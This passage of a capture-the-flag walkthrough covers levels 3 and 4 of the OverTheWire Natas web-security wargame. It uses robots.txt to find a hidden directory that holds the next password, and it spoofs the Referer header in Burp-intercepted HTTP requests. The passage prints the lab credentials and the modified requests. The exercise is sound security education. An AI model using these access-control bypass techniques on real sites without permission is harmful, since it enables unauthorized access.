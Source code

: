 There's no way of figuring this out unless you know that the clue alludes to a file called `robots.txt`. If you want hide something from Google or any search engine in general, one of the first things a search engine does is crawling. Crawling is when a search engine visits websites and indexes webpages by downloading them. The reason for this is to organize an "index" of webpages, so that the search engine knows where to refer users when they search something up. The `robots.txt` file tells Google **NOT** to index a certain page

Going to http://natas3.natas.labs.overthewire.org/robots.txt shows: 

```http
User-agent: *
Disallow: /s3cr3t/
```

This is saying, "Hey crawlers, don't index the `/s3cr3t` directory" (Not a great way to hide something from the Internet by the way). Once you go to http://natas3.natas.labs.overthewire.org/s3cr3t/, there is another `users.txt` that contains the credentials for level 4.

```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## level 4

You are greeting with a message in Level 4. 

```
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```

Time to get Burp out and make it look like you are coming from level 5! Let's break it down. You are denied access to this level because you aren't visiting from level 5. This level is set up to only authorize those from level 5 to see the contents of level 4. We are going to use Burp to intercept the request when the page was loaded, and modify the request to *make* it look like we're coming in from level 5.

The GET request should look like this

```http
GET / HTTP/1.1
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
```

However, if you don't hit the refresh page, you will be stuck in a loop that will keep making you authenticate to level 4! The GET request above goes to the home page, but the refresh button takes you to `/index.php`.

```http
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Connection: close
Referer: http://natas4.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
```
